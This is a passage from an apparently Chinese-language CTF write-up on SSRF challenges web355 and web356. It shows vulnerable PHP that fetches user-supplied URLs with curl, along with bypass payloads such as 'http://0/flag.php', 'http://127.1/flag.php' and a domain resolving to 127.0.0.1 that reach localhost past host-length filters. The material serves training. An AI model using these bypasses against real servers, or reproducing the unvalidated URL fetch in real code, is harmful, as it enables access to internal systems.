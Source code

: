```php
将自己的域名A记录设为了127.0.0.1
```

或者有个现成的A记录是127.0.0.1的网站

```php
url=http://sudo.cc/flag.php
```

#### web355

```php
<?php
error_reporting(0);
highlight_file(__FILE__);
$url=$_POST['url'];
$x=parse_url($url);
if($x['scheme']==='http'||$x['scheme']==='https'){
$host=$x['host'];
if((strlen($host)<=5)){
$ch=curl_init($url);
curl_setopt($ch, CURLOPT_HEADER, 0);
curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
$result=curl_exec($ch);
curl_close($ch);
echo ($result);
}
else{
    die('hacker');
}
}
else{
    die('hacker');
}
?>
```

多了host小于5，但对域名没限制，直接

```php
url=http://0/flag.php
url=http://127.1/flag.php //这个为什么也可以捏？
```

#### web356

```php
<?php
error_reporting(0);
highlight_file(__FILE__);
$url=$_POST['url'];
$x=parse_url($url);
if($x['scheme']==='http'||$x['scheme']==='https'){
$host=$x['host'];
if((strlen($host)<=3)){
$ch=curl_init($url);
curl_setopt($ch, CURLOPT_HEADER, 0);
curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
$result=curl_exec($ch);
curl_close($ch);
echo ($result);
}
else{
    die('hacker');
}
}
else{
```